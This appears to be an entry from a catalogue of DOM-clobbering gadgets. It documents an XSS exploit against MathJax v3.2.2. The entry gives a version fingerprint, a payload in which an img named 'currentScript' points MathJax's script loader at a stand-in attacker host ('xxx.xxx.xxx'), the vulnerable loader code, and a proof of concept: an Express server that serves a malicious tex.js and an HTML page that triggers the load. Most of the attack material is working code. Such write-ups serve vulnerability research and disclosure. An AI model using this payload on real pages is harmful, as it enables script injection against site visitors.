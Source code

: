 ## MathJax

### Meta

+ Library: MathJax
+ Stars: 10.1K
+ Version: v3.2.2
+ Fingerprint: `MathJax.version == "3.2.2"`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img> $$\require{tex}$$```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@3.2.2/es5/tex-mml-chtml.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mathjax/3.2.2/es5/tex-mml-chtml.js`

### Vulnerable Code Snippet

```javascript
t.getRoot = function() {
    var t = "//../../es5";
    if ("undefined" != typeof document) {
        var e = document.currentScript || document.getElementById("MathJax-script");
        e && (t = e.src.replace(/\/[^\/]*$/, ""))
    }
    return t
}
```
```javascript
prefix: function(t) {
    for (var r; (r = t.name.match(/^\[([^\]]*)\]/)) && e.CONFIG.paths.hasOwnProperty(r[1]); )
        t.name = e.CONFIG.paths[r[1]] + t.name.substr(r[0].length);
    return !0
}
```

## PoC

Note that some MathJax instances may be configured differently. If the image loads before MathJax is started, then `MathJax.config.loader.paths.mathjax` should be clobbered. Then, check `MathJax.config.loader.paths` or `MathJax.config.loader.source` to see what dependencies can be loaded in.

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

app.get('/input/tex/extensions/tex.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'tex.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

### PoC #1

```html
<!--Library-->
<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>
$$\require{tex}$$
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999"></img>
<!--Payload-->
```